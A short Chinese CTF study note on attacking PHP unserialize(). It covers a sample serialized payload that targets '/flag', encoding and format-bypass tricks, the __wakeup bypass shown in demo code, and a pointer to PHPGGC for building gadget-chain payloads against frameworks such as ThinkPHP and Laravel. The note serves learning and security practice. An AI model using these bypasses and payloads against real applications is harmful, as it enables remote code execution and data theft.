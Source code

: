 - [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
  
  ```php
  O:1:"A":1:{
      s:4:"aaaa";
      O:1:"B":1:{
          s:4:"bbbb";
          s:5:"/flag";
      }
  }
  ```
- 使用大写 S 可以自动转义`\61`等符号
- protected 变量
	- `S:7:"\00*\00aaaa";`
- 可以试试通过改变字符串长度实现字符逃逸
- unserialize()会把多余的字符串当垃圾处理，在花括号内的就是正确的，花括号后面的就都被扔掉
- `O:1:"A":1:`也可以用`O:+1:"A":1:`和`O:1:"A":+1:`代替
- 对象内可以用指针：`R:2;`指向第二个元素
  id:: 6478aaed-0cfc-41e3-a12e-55de79af3104
- `__wakeup`绕过：修改类的键数量
  collapsed:: true
	- ```php
	  <?php
	  
	  class Test {
	      public $a;
	      function __wakeup() {
	          echo "wakeup";
	      }
	      function __destruct() {
	          echo "destruct";
	      }
	  }
	  
	  $t = new Test();
	  $t -> a = "114514";
	  $s = serialize($t);
	  $s = str_replace('"Test":1', '"Test":2', $s);
	  echo serialize($t);
	  $t2 = unserialize($s);
	  var_dump($t2);
	  ?>
	  
	  ```
		-
- 快速反序列化：参考[[CTF/WP/数博会 贵阳杯]]
- 自定义序列化对象在序列化后以C开头，[例题](((64b2aacc-598b-4be7-b7d4-48230820277e)))
- 可以使用[PHPGGC](https://github.com/ambionics/phpggc)自动构建ThinkPHP, Lavaral等的反序列化payload
-